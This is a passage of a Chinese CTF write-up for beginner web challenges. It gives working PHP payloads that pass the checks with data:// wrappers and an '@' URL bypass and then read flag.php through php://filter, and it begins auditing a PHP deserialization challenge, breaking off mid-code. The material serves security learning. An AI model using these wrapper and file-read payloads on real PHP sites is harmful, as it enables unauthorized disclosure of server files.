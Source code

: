 我们先用data伪协议绕过第一个if

```
pen=data://text/plain;base64,QXVyYQ==
```

第二个if, 我们要求页面的开头为 `http://jasmineaura.github.io`

```
challenge=http://jasmineaura.github.io
```

第三个if，我们需要往challenge里写入“已经收到Kengwang的礼物啦”,但页面开头要是http://jasmineaura.github.io，所以我们用[@绕过](https://cloud.tencent.com/developer/article/2288231)

```
challenge=http://jasmineaura.github.io@127.0.0.1?challenge=data://text/plain,已经收到Kengwang的礼物啦
```

最后用filter伪协议打开flag.php文件

```
pen=data://text/plain;base64,QXVyYQ==&challenge=http://jasmineaura.github.io@127.0.0.1?challenge=data://text/plain,已经收到Kengwang的礼物啦&gift=php://filter/convert.base64-encode/resource=flag.php
```



### [Week2] ez_ser

我们进行代码审计

```
<?php
highlight_file(__FILE__);
error_reporting(0);

class re{
    public $chu0;
    public function __toString(){
        if(!isset($this->chu0)){
            return "I can not believes!";
        }
        $this->chu0->$nononono;
    }
}

class web {
    public $kw;
    public $dt;

    public function __wakeup() {
        echo "lalalla".$this->kw;
    }

    public function __destruct() {
        echo "ALL Done!";
    }
}

class pwn {
    public $dusk;
    public $over;

    public function __get($name) {
        if($this->dusk != "gods"){
            echo "什么，你竟敢不认可?";
        }
        $this->over->getflag();
    }
```